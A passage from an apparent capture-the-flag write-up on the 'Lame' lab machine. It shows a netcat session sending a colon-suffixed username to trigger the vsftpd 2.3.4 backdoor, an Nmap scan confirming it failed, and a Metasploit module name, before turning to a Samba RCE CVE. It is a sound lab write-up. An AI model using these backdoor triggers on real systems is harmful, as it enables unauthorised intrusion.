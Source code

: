 ## Dead End: vsftpd

Googling "vsftpd 2.3.4 exploit" took me to
[CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523). This version of
vsftpd contains a backdoor. The backdoor opens a remote shell on port 6200
whenever a user logs in with a colon in their username.

I used [netcat](https://en.wikipedia.org/wiki/Netcat) to try and and open this
backdoor on the target:

```shell-session
$ nc lame.htb 21
220 (vsFTPd 2.3.4)
USER foo:)
331 Please specify the password.
foo
530 Please login with USER and PASS.
USER foo:)
331 Please specify the password.
PASS foo

```

Then, in a second session, I reran Nmap to check for the backdoor on port 6200:

```shell-session
$ nmap -Pn lame.htb
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-16 18:23 GMT
Nmap scan report for lame.htb (10.129.31.208)
Host is up (0.014s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 4.77 seconds
```

No joy. Port 6200 isn't available, suggesting the backdoor wasn't activated.

To make certain, I also tried using the `unix/ftp/vsftpd_234_backdoor` module in
metasploit, without success.

## Samba

Next on my list was Samba 3.0.20. Googling for CVEs turned up
[CVE-2007-2447](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2007-2447).
This is a remote code execution (RCE) vulnerability, meaning it allows an
attacker to execute arbitrary commands on the target machine. These kinds of
vulnerabilities are particularly devastating because they allow an attacker to
poke around the target, modify files and potentially even gain an interactive
shell.
